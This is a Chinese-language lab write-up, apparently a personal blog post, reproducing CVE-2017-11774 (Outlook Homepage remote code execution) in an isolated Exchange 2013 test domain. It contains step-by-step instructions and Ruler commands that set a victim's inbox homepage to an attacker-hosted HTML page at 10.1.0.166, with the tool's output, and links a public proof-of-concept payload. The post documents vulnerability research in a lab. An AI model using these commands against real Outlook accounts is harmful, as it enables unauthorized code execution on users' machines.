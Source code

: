 
---
title: Outlook Homepage Vulner
date: 2018-05-30 19:28:00
categories:
   - 技术相关
tags:
   - 漏洞
   - Outlook homepage
   - 笔记
#summary_img: /images/material-xcx.png
---

## 0x00 环境介绍

<!-- more -->
域控制器 ： OWA2013DC - 10.1.0.100   域名：corp.contoso.com

Exchange服务器 ： OWA2013Server - 10.1.0.213    加入域

Kali ： 10.1.0.166   未加入域

虚拟机模式: hostonly

三台网关:10.1.0.100 

hosts: 10.1.0.213	corp.contoso.com	contoso.com		autodiscover.contoso.com


`CVE-2017-11774`

    https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11774 

`Description`

    Microsoft Outlook 2010 SP2, Outlook 2013 SP1 and RT SP1, and Outlook 2016 allow an attacker to execute arbitrary commands, due to how Microsoft Office handles objects in memory, aka "Microsoft Outlook Security Feature Bypass Vulnerability."


## 0x01 新建邮箱用户 (Exchange management shell)

New-Mailbox -Name 'crazy' -UserPrincipalName crazy@contoso.com

![new-mailbox](Outlook Homepage Vulner/new-mailbox.JPG)

会自动创建域用户 crazy

![new-mailbox](Outlook Homepage Vulner/new-mailbox2.JPG)

登陆 

    https://localhost/owa/auth/logon.aspx?replaceCurrent=1&reason=2&url=https%3a%2f%2flocalhost%2fecp%2f

==> ok
         


## 0x02 windows上新建一个mailbox

填入邮箱及密码
![add-mail](Outlook Homepage Vulner/add-mail.JPG)

## 0x03 触发homepage漏洞

    打开 crazy 邮箱 (outlook )
    -> 点击 inbox 并右键 Data File Properties 
      -> 写入 homepage内容 [outlookHomepageRCE](https://gist.githubusercontent.com/staaldraad/c7b857e9bd6fd332f6f1bd01a2160266/raw/16fb7bb5aac443f4541dd0557062445d128b9813/outlookHomepageRCE.html)
        -> crazy@corp.contoso.com ( 点击 inbox 弹出 notepad )
       
![homepage](Outlook Homepage Vulner/homepage1.JPG)


当然也可使用工具 Ruler ( kali )

    /usr/local/go/bin/go run ruler.go -k --email crazy@corp.contoso.com -u crazy homepage add --url http://10.1.0.166/1.html
    Password: 
    [+] Retrieving MAPI/HTTP info
    [+] Binding to RPC
    [+] Creating new endpoint
    [+] Verifying...
    [+] New endpoint set
    [+] Trying to force trigger

    /usr/local/go/bin/go run ruler.go -k --email crazy@corp.contoso.com -u crazy homepage display
    Password: 
    [+] Retrieving MAPI/HTTP info
    [+] Binding to RPC
    [+] Getting existing endpoint
    [+] Found endpoint: http://10.1.0.166/1.html
    [+] Webview is set as ENABLED
    
![kali-homepage](Outlook Homepage Vulner/homepage3.JPG)
       
通过这个漏洞,可以执行命令...
       
## 0x04 还有恶意规则漏洞 (Ruler工具)

    /usr/local/go/bin/go run ruler.go -k --email crazy@corp.contoso.com -u crazy display
        Password: 
        [+] Retrieving MAPI/HTTP info
        [+] Binding to RPC
        [+] Retrieving Rules
        [+] No Rules Found

## 0x05 注

    此漏洞要知道邮箱账号密码
    此漏洞只针对未打补丁的outlook客户端 ( Outlook 2010 SP2, Outlook 2013 SP1 and RT SP1, and Outlook 2016 )

## 0x06 Reference

    https://github.com/sensepost/ruler/wiki/Rules
    https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/ 



